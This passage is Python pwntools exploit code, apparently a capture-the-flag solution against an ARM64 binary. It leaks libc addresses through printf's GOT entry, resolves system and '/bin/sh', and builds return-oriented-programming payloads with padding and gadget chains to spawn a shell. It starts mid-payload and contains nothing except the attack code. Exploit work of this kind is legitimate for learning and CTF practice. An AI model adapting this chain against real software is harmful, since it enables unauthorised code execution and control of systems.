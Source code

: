 ```python
        printf_got, #x24
        main,
        main,
        main,
        main,
        main,
        main,
        main,
        main,
        main,
        main,
        main
    ])
    io.send(payload)
    libc.address = u64((io.recv(3)+"\x00\x40").ljust(8,"\x00")) - libc.symbols['printf']
    log.info("Libc base -> "+hex(libc.address))

    system = libc.symbols['system']
    binsh = next(libc.search("/bin/sh"))

    log.info("System -> "+hex(system))
    log.info("Binsh -> "+hex(binsh))

    libcgadget = libc.address + 0x63c0c

    name = p64(gadget2)
    name += p64(0)
    name += p64(0x10A9FC70042)
    name += p64(0)
    io.sendafter("input your name: ",name)
    lock(-2)
    show()
    io.recvuntil("name: ")
    leak2 = u64(io.recv(8))
    new_gadget = conv(gadget2, leak2)
    add(puts_plt)
    lock(-1)
    auth(-1)
    payload = "a"*0x28
    payload += flat([
        new_gadget, #pc
        0, #x29
        gadget1, #x30
        0, #x19
        1, #x20
        name_addr + 0x20, #x21
        printf_got, #x22
        printf_got, #x23
        printf_got, #x24
        libcgadget,
        libcgadget,
        libcgadget,
        libcgadget,
        libcgadget,
        libcgadget,
        libcgadget,
        libcgadget,
        libcgadget,
        system,
        system,
        binsh,
        binsh
    ])
```
